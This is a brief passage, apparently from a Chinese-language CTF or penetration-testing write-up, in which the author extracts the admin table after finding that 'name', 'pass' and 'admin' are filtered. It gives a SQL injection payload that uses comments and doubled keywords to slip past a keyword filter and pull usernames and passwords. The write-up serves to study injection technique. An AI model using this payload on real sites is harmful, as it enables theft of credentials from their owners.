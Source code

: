 <img src="/assets/NUPTZJ/02.png" width=100%>
然后就是得到admin表的数据了，注意这里name、pass、admin都被过滤了，又坑了我一波。
payload

```
soid=0/**/anandd/**/1/**/uniunionon/**/seleselectct/**/1,usernanameme,userpapassss,4/**/frfromom/**/adadminmin
```
得到结果。